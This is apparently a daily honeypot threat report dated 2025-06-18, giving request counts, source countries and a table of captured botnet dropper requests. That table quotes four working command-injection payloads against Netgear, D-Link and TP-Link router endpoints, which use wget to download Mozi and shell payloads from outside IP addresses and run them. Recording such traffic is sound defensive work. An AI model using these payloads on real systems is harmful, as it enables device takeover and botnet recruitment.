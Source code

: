 ```yaml
---
title: "Report: 2025-06-18 "
date: 2025-06-18
desciption: "Report: 2025-06-18" 
tags: [repport, daily]
---
```



# Daily Report: 2025-06-18 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 4 stage 1 IP address(es), linked to 4 dropper URL(s).  

There are 503 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 4292 requests were recorded during the day, originating from 4 different countries, with a peak of 1777 requests coming from GB.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| GB               | Germany            |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                                  |
|:----------------|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 103.208.105.211 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://103.208.105.211:57807/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0           |
| 117.244.226.245 | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                                    |
| 87.121.84.34    | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(wget+http://31.57.63.48/x/tplink+-O-|sh) HTTP/1.1                                                                 |
| 176.65.148.10   | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=cd+/tmp;rm+-rf+*;wget+http://213.209.143.44/netgear.sh;chmod+777+netgear.sh;sh+netgear.sh;&curpath=/&currentsetting.htm=1; HTTP/1.1 |
